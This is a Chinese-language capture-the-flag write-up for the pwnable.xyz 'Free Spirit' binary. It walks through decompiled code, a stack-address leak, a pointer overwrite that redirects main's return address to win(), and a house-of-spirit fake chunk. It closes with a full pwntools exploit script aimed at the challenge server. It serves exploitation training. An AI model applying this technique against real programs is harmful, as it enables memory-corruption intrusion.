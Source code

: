 ```yaml
---
Site: pwnable.xyz
Chalenge: Free Spirit 
---
```


# pwnable.xyz Free Spirit

### 0x0 前置补偿

`__prinf_chk`函数是一个带有check的`printf`函数,其原型为

```
int __printf_chk (int flag , const char * format );
```

随着flag的值越高,check的等级越高

```
printf_chk`函数可以有效的阻挡格式化字符串的攻击,无法直接使用`%x$p`,也无法使用`%n
```



[House of spirit](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/house_of_spirit.c)	

### 0x1 分析

看一下安全性：

```shell
[*] './challenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

关闭了PIE，地址固定了。

这个程序逻辑比较简单，只有三个功能

`main()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *idx; // rdi
  signed __int64 i; // rcx
  int v5; // eax
  __int64 v7; // [rsp+8h] [rbp-60h]
  char *buf; // [rsp+10h] [rbp-58h]
  char nptr; // [rsp+18h] [rbp-50h]
  unsigned __int64 v10; // [rsp+48h] [rbp-20h]

  v10 = __readfsqword(0x28u);
  setup();
  buf = (char *)malloc(0x40uLL);                // chun idx 0
  while ( 1 )
  {
    while ( 1 )
    {
      _printf_chk(1LL, (__int64)"> ");
      idx = &nptr;
      for ( i = 12LL; i; --i )
      {
        *(_DWORD *)idx = 0;
        idx += 4;
      }
      read(0, &nptr, 0x30uLL);
      v5 = atoi(&nptr);
      if ( v5 != 1 )
        break;
      __asm { syscall; LINUX - sys_read }
    }
    if ( v5 <= 1 )
      break;
    if ( v5 == 2 )
    {
      _printf_chk(1LL, (__int64)"%p\n");
    }
    else if ( v5 == 3 )
    {
      if ( (unsigned int)limit <= 1 )
        _mm_storeu_si128((__m128i *)&v7, _mm_loadu_si128((const __m128i *)buf));
    }
    else
    {
LABEL_16:
      puts("Invalid");
    }
  }
  if ( v5 )
    goto LABEL_16;
  if ( !buf )
    exit(1);
  free(buf);
  return 0;
}
```

首先申请了一个堆`buf`然后三个操作，

`case 1`：向`buf`里`read` `0x20`个字符。

```assembly
.text:0000000000400849 loc_400849:                             ; CODE XREF: main+73↑j
.text:0000000000400849                 mov     rsi, [rsp+68h+buf] ; buf
.text:000000000040084E                 xor     rax, rax
.text:0000000000400851                 xor     rdi, rdi        ; fd
.text:0000000000400854                 mov     rdx, 20h        ; count
.text:000000000040085B                 syscall                 ; LINUX - sys_read
```

`case 2`:

`_printf_chk(1LL, (__int64)"%p\n");`

打印一个栈地址，经过调试可以获取存放`main`函数的返回地址的栈地址。

`case 3`:

```c
if ( (unsigned int)limit <= 1 )
        _mm_storeu_si128((__m128i *)&v7, _mm_loadu_si128((const __m128i *)buf));
```

`limit`是全局变量，自动初始化为`0`。

然后向`v7`位置写入`128bit`也就是`0x10`字节的内容，看栈内局部变量的位置，刚好后`0x8`字节的内容可以覆盖`buf`。

还有一个贴心的函数`win()`：

```c
int win()
{
  return system("cat /flag");
}
```

#### 思路

我们首先通过`case 2`泄漏存放`main`函数的返回地址的栈地址，然后修改`buf`通过`case 3`修改`buf`指向那个地址从而通过`case 1`修改为`win()`函数的位置。

但是我们最后要完美退出`main()`函数，这样意味着我们需要通过最后`free(buf)`，这就需要伪造一个`chunk`通过检查，这里刚好可以用到house of spirit，来构造一个`fake chunk`，并设置`nextchunk->size`，来通过检查。

最后拿到`flag`。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context.log_level = 'debug'
context(arch = 'amd64' , os = 'linux', log_level='debug')

# p = process('./challenge')
p = remote("svc.pwnable.xyz", 30005)
elf = ELF('./challenge')

def debug(p, cmd):
	gdb.attach(p, cmd)
	pause()

def edit(content):
	p.sendlineafter('> ', '1')
	p.send(content.ljust(0x20, '\x00'))

def change_buf_addr():
	p.sendlineafter('> ', '3')

def get_addr():
	p.sendlineafter('> ', '2')
	return eval(p.recvuntil('\n').strip('\n'))

# get main return address
main_ret = get_addr() + 0x58
print (hex(main_ret))

# change buf to main_ret
payload = flat([
	'\x00'*0x8,
	main_ret
])
edit(payload)
change_buf_addr()

# change main_ret to win and change buf to bss
win_addr = 0x400A3E	
bss_addr = elf.bss()
payload = flat([
	win_addr,
	bss_addr + 0x8
])
edit(payload)
change_buf_addr()
# p.interactive()

# house of spirit
payload = flat([
	0x51,
	bss_addr + 0x58
])
edit(payload)
change_buf_addr()

payload = flat([
	0x21,
	bss_addr + 0x10
])
edit(payload)
change_buf_addr()

# get flag
p.sendlineafter('> ', 'a')
p.interactive()
```